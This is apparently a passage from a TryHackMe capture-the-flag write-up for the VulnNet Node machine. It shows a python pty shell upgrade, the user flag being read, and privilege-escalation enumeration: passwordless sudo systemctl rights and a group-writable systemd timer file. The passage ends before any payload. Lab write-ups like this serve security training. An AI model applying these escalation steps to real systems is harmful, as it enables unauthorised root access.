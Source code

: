 ## User flag

Let's get the user flag:

~~~
$ python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
serv-manage@vulnnet-node:/home/www/tmp$ cd /home/serv-manage/
serv-manage@vulnnet-node:~$ cat user.txt
THM{064640a2f880ce9ed7a54886f1bde821}
~~~

User flag: `THM{064640a2f880ce9ed7a54886f1bde821}`

# What is the root flag? (root.txt)

## The vulnnet service

We can start and stop the `vulnnet-auto.timer` as well as reload services, as `root` with `sudo` without password:

~~~
serv-manage@vulnnet-node:~$ sudo -l
sudo -l
Matching Defaults entries for serv-manage on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
~~~

In addition, we have write access to the `vulnnet-auto.timer` script:

~~~
serv-manage@vulnnet-node:~$ find / -type f -name vulnnet-auto.timer -exec ls -l {} + 2>/dev/null
-rw-rw-r-- 1 root serv-manage 167 Jan 24 16:59 /etc/systemd/system/vulnnet-auto.timer
~~~

Below is the content of the `vulnnet-auto.timer` script:

~~~
serv-manage@vulnnet-node:/etc/systemd/system$ cat vulnnet-auto.timer
[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target
~~~
